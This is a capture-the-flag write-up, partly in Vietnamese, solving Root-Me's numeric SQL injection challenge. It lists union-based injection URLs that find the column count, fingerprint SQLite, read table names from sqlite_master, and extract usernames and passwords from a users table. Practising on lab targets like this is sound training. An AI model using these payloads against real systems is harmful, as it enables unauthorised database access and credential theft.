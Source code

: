 # SQL injection - Numeric

\*\*\* Link: http://challenge01.root-me.org/web-serveur/ch18/

## Request

Retrieve the administrator password.

## Solution

Ta sẽ tấn công thông qua GET request

### Step 1: Xem loại database mà trang web đang dùng

- `http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 order by 1,2,3,4,5,6`

- `http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,sqlite_version(),3`

### Step 2: Tìm tên table:

- `http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,tbl_name,3 from sqlite_master`

Tại đây chúng ta thấy table tên là _users_

### Step 3: Get user name and password from users table

- `https://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,username,password from users`
